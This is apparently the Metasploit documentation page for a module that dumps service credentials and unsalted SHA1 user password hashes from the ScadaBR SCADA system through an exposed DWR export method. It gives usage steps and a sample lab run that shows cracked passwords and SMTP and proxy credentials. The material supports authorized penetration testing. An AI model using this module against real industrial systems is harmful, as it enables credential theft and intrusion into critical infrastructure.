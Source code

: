 ## Vulnerable Application

This module retrieves credentials from ScadaBR, including
service credentials and unsalted SHA1 password hashes for
all users, by invoking the `EmportDwr.createExportData` DWR
method of Mango M2M which is exposed to all authenticated
users regardless of privilege level.

ScadaBR is a SCADA (Supervisory Control and Data Acquisition)
system with applications in Process Control and Automation,
being developed and distributed using the open source model.

This module has been tested successfully with ScadaBR
versions 1.0 CE and 0.9 on Windows and Ubuntu systems.

## Verification Steps

Download:

* [Windows Installers](https://sourceforge.net/projects/scadabr/files/Software/Installer%20Win32/)
* [Linux Installers](https://sourceforge.net/projects/scadabr/files/Software/Linux/)
* [Tomcat WAR files](https://sourceforge.net/projects/scadabr/files/Software/WAR/)

Metasploit:

1. Start `msfconsole`
1. Do: `use auxiliary/admin/http/scadabr_credential_dump`
1. Do: `set rhosts [IP]`
1. Do: `set username [USERNAME]`
1. Do: `set password [PASSWORD]`
1. Do: `run`
1. You should get credentials

## Options

### USERNAME

The username for the application (default: `admin`)

### PASSWORD

The password for the application (default: `admin`)

### PASS_FILE

Wordlist file to crack password hashes (default: `./data/unix_passwords.txt`)

## Scenarios

```
msf > use auxiliary/admin/http/scadabr_credential_dump 
msf auxiliary(admin/http/scadabr_credential_dump) > set rhosts 172.16.191.194
rhosts => 172.16.191.194
msf auxiliary(admin/http/scadabr_credential_dump) > set username admin
username => admin
msf auxiliary(admin/http/scadabr_credential_dump) > set password admin
password => admin
msf auxiliary(admin/http/scadabr_credential_dump) > run
[*] Running module against 172.16.191.194

[+] 172.16.191.194:8080 Authenticated successfully as 'admin'
[+] 172.16.191.194:8080 Export successful (4735 bytes)
[+] Config saved in: /root/.msf4/loot/20210220192214_default_172.16.191.194_scadabr.config_546879.txt
[+] Found 5 users
[*] Found weak credentials (admin:admin)
[*] Found weak credentials (operator:a)
[*] Found weak credentials (test:sunshine)
[*] Found weak credentials (user:A)
[*] Found weak credentials (zxcv:zxcv)

ScadaBR User Credentials
========================

 Username  Password  Hash (SHA1)                               Role   E-mail
 --------  --------  -----------                               ----   ------
 admin     admin     d033e22ae348aeb5660fc2140aec35850c4da997  Admin  admin@yourMangoDomain.com
 operator  a         86f7e437faa5a7fce15d1ddcb9eaeaea377667b8  User   operator@localhost
 test      sunshine  8d6e34f987851aa599257d3831a1af040886842f  User   test@localhost
 user      A         6dcd4ce23d88e2ee9568ba546c007c63d9131c1b  Admin  user@localhost
 zxcv      zxcv      9878e362285eb314cfdbaa8ee8c300c285856810  User   zxcv@localhost

[+] Found SMTP credentials: smtptestuser:smtptestpass@127.0.0.1:25
[+] Found HTTP proxy credentials: proxytestuser:proxytestpass@127.0.0.1:8080

ScadaBR Service Credentials
===========================

 Service     Host       Port  Username       Password
 -------     ----       ----  --------       --------
 HTTP proxy  127.0.0.1  8080  proxytestuser  proxytestpass
 SMTP        127.0.0.1  25    smtptestuser   smtptestpass

[*] Auxiliary module execution completed
msf auxiliary(admin/http/scadabr_credential_dump) > creds
Credentials
===========

host            origin          service          public    private   realm  private_type  JtR Format
----            ------          -------          ------    -------   -----  ------------  ----------
172.16.191.194  172.16.191.194  8080/tcp (http)  admin     admin            Password
172.16.191.194  172.16.191.194  8080/tcp (http)  operator  a                Password
172.16.191.194  172.16.191.194  8080/tcp (http)  test      sunshine         Password
172.16.191.194  172.16.191.194  8080/tcp (http)  user      A                Password
172.16.191.194  172.16.191.194  8080/tcp (http)  zxcv      zxcv             Password

msf auxiliary(admin/http/scadabr_credential_dump) > 
```

